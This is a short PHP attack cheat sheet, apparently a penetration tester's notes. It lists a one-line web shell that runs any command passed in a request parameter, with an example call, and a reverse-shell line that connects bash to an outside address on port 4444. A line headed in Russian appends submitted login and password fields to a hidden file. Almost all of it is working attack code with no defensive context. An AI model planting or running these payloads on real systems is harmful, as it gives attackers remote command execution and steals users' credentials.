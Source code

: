 # PHP

# CMD
  <?php system($_REQUEST['pwn']); ?>

  inddex.php?pwn=ls

# ReverseShell

<?php system ('bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"'); ?>

# Запись в файл переменных

file_put_contents(".max", $_POST['log'] . ":" . $_POST['pwd'] . "\n" , FILE_APPEND);
